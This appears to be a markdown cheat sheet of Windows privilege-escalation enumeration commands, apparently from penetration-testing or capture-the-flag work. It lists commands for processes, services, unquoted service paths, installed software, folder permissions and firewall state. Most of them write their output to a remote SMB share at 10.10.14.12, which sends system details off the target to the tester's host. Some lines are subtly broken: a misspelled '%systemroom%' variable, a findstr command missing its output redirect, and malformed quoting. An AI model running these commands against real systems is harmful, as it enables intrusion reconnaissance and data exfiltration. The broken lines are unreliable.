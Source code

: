 ### Running processes
```
tasklist /v /fo list > \\10.10.14.12\share\tasklist
```

### Services
```
sc query > \\10.10.14.12\share\services
wmic service get name,startname > \\10.10.14.12\share\service-owners

reg query HKLM\SYSTEM\CurrentControlSet\Services\SNMP /s
```

### Unquoted service paths
This will show unquoted paths including those that do not contain spaces. If the output contains paths with spaces, use `icacls` along the path to see if your user can write to any of the folders.
```
wmic service get name,pathname,startname,displayname,startmode | findstr /i /v "C:\Windows\\" | findstr /i /v """ > \\10.10.14.12\share\unquoted-service-paths
```

### Installed .Net versions
Both calls are required: WMIC call is used for later frameworks.
```
dir /b /ad /o-n %systemroom%\Microsoft.NET\Framework\v?.* > \\10.10.14.12\share\dot-net-versions
wmic product get description | findstr /C:".Net Framework" \\10.10.14.12\share\dot-net-versions-later
```

### Installed software
The output may be in relation to the groups the account running the command belongs to. This should really be run by an account with Administrator privileges.
```
wmic product get name,description,version,vendor,installlocation > \\10.10.14.12\share\installed-software-versions 
```

### Directory permissions
Looking for "BUILTIN\Users:(W)" so we can add to a directory as a non-privileged user.
```
icacls "C:\path\to\folder\" > \\10.10.14.12\share\folder-perms
icacls %temp% > \\10.10.14.12\share\temp-folder
```

### Looking for interesting binaries
```
where python.exe python3.exe {...} > \\10.10.14.12\share\interesting-binaries
```

### Installed AV/Firewall
Should be able to run unprivileged.
```
netsh firewall show state                           // netsh firewall is deprected.
netsh advfirewall show currentprofile               // Replacement version
```

